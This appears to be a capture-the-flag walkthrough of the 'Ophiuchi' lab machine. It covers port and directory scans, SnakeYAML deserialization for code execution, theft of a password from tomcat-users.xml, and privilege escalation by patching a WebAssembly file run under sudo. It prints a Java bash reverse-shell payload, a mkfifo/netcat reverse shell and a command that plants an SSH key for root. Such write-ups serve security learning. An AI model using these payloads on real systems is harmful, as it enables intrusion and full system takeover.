

🎯

Ophiuchi
========

Starting with nmap scan:

``` {#8804e073-668d-47a2-85fa-82916538c5c0 .code}
# Nmap 7.91 scan initiated Wed May  5 14:20:22 2021 as: nmap -Pn -sV -A -oA scan-output -vv 10.10.10.227
Nmap scan report for 10.10.10.227
Host is up, received user-set (0.19s latency).
Scanned at 2021-05-05 14:20:23 EDT for 25s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCpzM/GEYunOwIMB+FyQCnOaYRK1DYv8e0+VI3Zy7LnY157q+3SITc
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM79V2Ts2us0NxZA7nn
|   256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO31s/C33kbuzZl9ohJWVEmLsW9aqObU6ZjlpbOQJt0C
8080/tcp open  http    syn-ack Apache Tomcat 9.0.38
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  5 14:20:48 2021 -- 1 IP address (1 host up) scanned in 26.02 seconds
```

Gobuster directories scan:

``` {#e6bea2eb-36b3-4458-97a4-8851967920ba .code}
└─$ gobuster dir -u http://10.10.10.227:8080/ -w /usr/share/dirb/wordlists/common.txt                            
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.227:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/05 14:25:01 Starting gobuster in directory enumeration mode
===============================================================
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/Servlet              (Status: 200) [Size: 0]                     
/test                 (Status: 302) [Size: 0] [--> /test/]        
                                                                  
===============================================================
2021/05/05 14:26:33 Finished
===============================================================
```

[](Ophiuchi/Untitled.png)

In 8080 port we have online YAML parser =
[http://10.10.10.227:8080/index.jsp](http://10.10.10.227:8080/index.jsp)

[](Ophiuchi/Untitled%201.png)

In host-manager ask for login

[](Ophiuchi/Untitled%202.png)

Stopping login says :

[](Ophiuchi/Untitled%203.png)

manager ask for login too

[](Ophiuchi/Untitled%204.png)

/servlet - ISs a blank page

[](Ophiuchi/Untitled%205.png)

The YAML parser have a CVE called insecure deserialization, and in this
article shows how to exploit it.

[https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)

Github about YAML Payload :
[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

I note that the Parse YAML java payload returns in my server a response.

``` {#289f8535-a917-4e5b-833c-e92796ab617b .code}
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.185/"]
  ]]
]
```

[](Ophiuchi/Untitled%206.png)

### More examples of deserialization : {#f9914d8e-47af-4382-9ed2-104ce26feb56}

[https://www.fatalerrors.org/a/analysis-of-the-snakeyaml-deserialization-in-java-security.html](https://www.fatalerrors.org/a/analysis-of-the-snakeyaml-deserialization-in-java-security.html)

[https://www.youtube.com/watch?v=GjwduwSltNU&ab\_channel=JohnHammond](https://www.youtube.com/watch?v=GjwduwSltNU&ab_channel=JohnHammond)

[](Ophiuchi/Untitled%207.png)

[](Ophiuchi/Untitled%208.png)

[https://www.programmersought.com/article/15966770260/](https://www.programmersought.com/article/15966770260/)

I tried a lot of payloads and i saw this :

``` {#77e9ab3d-df5d-42af-bcf1-57daf4a4a4d5 .code}
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
    String [] cmd={"bash","-c","bash -i >& /dev/tcp/10.10.14.185/3332 0>&1"};
        String [] jex={"bash","-c","{echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"};
        try {
            Runtime.getRuntime().exec(cmd);
        Runtime.getRuntime().exec(jex);
        Runtime.getRuntime().exec("echo $jex");
        } catch (IOException e) {
            e.printStackTrace();
        }
```

After many attempts I get a shell, to do this I created another VM using
ParrotOS, probably my kali Linux had a some problem related to java
compilation.

Working perfectly and getting the tomcat user.

[](Ophiuchi/Untitled%209.png)

Exploring the machine in the /opt/tomcat/conf directory have interesting
file called tomcat-users.xml and in it is stored the administrator
password.

[](Ophiuchi/Untitled%2010.png)

Login in user with command : su admin

Successful, getting the first FLAG!!!

[](Ophiuchi/Untitled%2011.png)

To facility our process make shell full interactive:

``` {#fab24b45-f6c1-487e-8e0c-d930098e525a .code}
python3 -c 'import pty;pty.spawn("/bin/bash")'
press CTRL + z
type : stty raw -echo;fg
press ENTER 
```

[](Ophiuchi/Untitled%2012.png)

``` {#5b2335fe-1692-4a6c-8dce-42816b4f1248 .code}
sudo -l
```

PATH /opt/wasm-functions/index.go

Reading the code we look that index.go executes /bin/bash and
[deploy.sh](http://deploy.sh) localized in wasm-functions and it read
main.wasm

### ARTICLES: {#adc00fa7-3db4-49e3-9a7c-bc6445d791be}

[https://www.reddit.com/r/golang/comments/jaqypa/machine\_a\_zero\_dependency\_library\_for\_managed/](https://www.reddit.com/r/golang/comments/jaqypa/machine_a_zero_dependency_library_for_managed/)

[https://blog.charmes.net/post/privileged-listen-golang/](https://blog.charmes.net/post/privileged-listen-golang/)

[https://github.com/golang/go/issues/1435](https://github.com/golang/go/issues/1435)

[https://medium.com/trainingcenter/goroutines-e-go-channels-f019784d6855](https://medium.com/trainingcenter/goroutines-e-go-channels-f019784d6855)

[https://gobyexample.com/goroutines](https://gobyexample.com/goroutines)

[http://goporexemplo.golangbr.org/goroutines.html](http://goporexemplo.golangbr.org/goroutines.html)

[https://stackoverflow.com/questions/42934606/tomcat-or-root-password-in-azure-bitnami](https://stackoverflow.com/questions/42934606/tomcat-or-root-password-in-azure-bitnami)

[https://www.reddit.com/r/golang/comments/jaqypa/machine\_a\_zero\_dependency\_library\_for\_managed/](https://www.reddit.com/r/golang/comments/jaqypa/machine_a_zero_dependency_library_for_managed/)

Note that f ≠ "1" return "Not ready to deploy", if we change this ?

[](Ophiuchi/Untitled%2013.png)

Copy the main.wasm to /tm

[](Ophiuchi/Untitled%2014.png)

[](Ophiuchi/Untitled%2015.png)

Let's try read main.wasm in our computer.

[https://github.com/WebAssembly/wabt](https://github.com/WebAssembly/wabt)

[](Ophiuchi/Untitled%2016.png)

[](Ophiuchi/Untitled%2017.png)

Download the wat2wasm

``` {#ca588a38-9888-4a8a-9691-fe14e58d032a .code}
apt-get install wabt
```

[](Ophiuchi/Untitled%2018.png)

Try with wat2wasm and install cmake.

[](Ophiuchi/Untitled%2019.png)

Convert the main.wasm to main.wat

[](Ophiuchi/Untitled%2020.png)

Change the func \$info to 1:

[](Ophiuchi/Untitled%2021.png)

[](Ophiuchi/Untitled%2022.png)

[](Ophiuchi/Untitled%2023.png)

Compile the program again, and up in the machine.

``` {#1ed1253a-d438-4092-9595-083f967934df .code}
wat2wasm main.wat
```

[](Ophiuchi/Untitled%2024.png)

In the same folder create a file called [deploy.sh](http://deploy.sh),
paste your reverse shell or send a ssh-key and run sudoers command:

``` {#ca9c0b96-cd0a-42b3-945c-653b03811655 .code}
sudo /usr/bin/go run /opt/wasm-functions/index.go

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
#or
echo "YOUR SSH KEY" >> /root/.ssh/authorized_keys
```

[](Ophiuchi/Untitled%2025.png)

Root access :

[](Ophiuchi/Untitled%2026.png)

### Sources: {#817b1e37-940b-488e-abc1-06b030734a56}

[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

[https://github.com/artsploit/yaml-payload/issues/3](https://github.com/artsploit/yaml-payload/issues/3)

[https://github.com/artsploit/yaml-payload/issues/1](https://github.com/artsploit/yaml-payload/issues/1)

[https://web.archive.org/web/20190918220027/https://blog.semmle.com/swagger-yaml-parser-vulnerability/](https://web.archive.org/web/20190918220027/https://blog.semmle.com/swagger-yaml-parser-vulnerability/)

[https://www.programmersought.com/article/15966770260/](https://www.programmersought.com/article/15966770260/)

[https://github.com/mbechler/marshalsec/blob/master/marshalsec.pdf](https://github.com/mbechler/marshalsec/blob/master/marshalsec.pdf)

[https://www.rapid7.com/blog/post/2016/06/23/r7-2016-06-remote-code-execution-via-swagger-parameter-injection-cve-2016-5641/](https://www.rapid7.com/blog/post/2016/06/23/r7-2016-06-remote-code-execution-via-swagger-parameter-injection-cve-2016-5641/)
